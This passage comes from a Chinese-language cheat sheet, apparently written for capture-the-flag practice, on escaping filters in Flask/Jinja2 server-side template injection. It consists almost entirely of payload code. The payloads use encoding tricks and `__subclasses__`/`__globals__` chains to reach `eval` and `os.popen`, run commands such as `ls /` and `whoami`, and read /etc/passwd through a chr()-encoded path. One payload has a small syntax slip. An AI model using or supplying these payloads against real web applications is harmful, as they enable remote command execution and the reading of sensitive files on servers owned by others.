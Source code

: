 - ```python
  'Y2xhc3M='.decode('base64')	# b64
  ```

- ```python
  '\u0063\u006C\u0061\u0073\u0073'	# unicode
  ```

- ```python
  '\x63\x6c\x61\x73\x73'	# hex
  ```


### 过滤`[]`

`[]`用在字典按索引取值和数组中取值，不过禁止了还是有函数可以用

- `__getitem__`

  ```python
  ().__class__.__base__.__subclasses__().__getitem__(index).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')
  ```

- `pop()`

  ```python
  ().__class__.__base__.__subclasses__().pop(index).__init__.__globals__.pop('__builtins__').pop('eval')('__import__("os").popen("ls /").read()')
  ```

- `.`

  ```python
  ().__class__.__bases__.0.__subclasses__().index.__init__.__globals__.linecache.os.popen('whoami').read()
  ```

### 过滤`.`

`.`点号用在向下不停地取值，跟`[]`很像

- ```python
  "".__class__ == ""["__class__"]
  ```

- `attr()` 很强的一个flask内置filter，`foo|attr("bar") == foo.bar`

  ```python
  {{()|attr('__class__')|attr('__base__')............}}
  ```

### 过滤`'`

- `chr` 先找出`chr()`的位置（注意跑脚本跑的是`__builtins__` 这个函数是内建的），用模板语句给它赋个值，然后调用

  ```html
  {% set chr=().__class__.__bases__[0].__subclasses__()[index].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.[0].__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}
  ```
